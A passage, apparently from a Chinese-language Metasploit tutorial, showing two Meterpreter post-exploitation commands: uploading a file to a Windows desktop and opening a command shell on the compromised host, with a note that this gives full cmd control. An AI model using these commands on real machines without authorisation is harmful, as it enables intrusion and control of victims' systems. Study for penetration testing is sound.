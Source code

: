 ## 上传文件

```
meterpreter > upload /root/hacker.txt C:\\Users\\DELL\\Desktop

```

![上传文件1.jpg](https://upload-images.jianshu.io/upload_images/7216746-d7684b5c920cdf5e.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![上传文件2.jpg](https://upload-images.jianshu.io/upload_images/7216746-d6d9fa5b1b7dc748.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


## shell

```
meterpreter > shell
```

`shell` 顾名思义就是`shell`了，这个命令相当于完全控制了windows的cmd命令行，可以执行任意cmd操作，当然只要权限足够大的话。


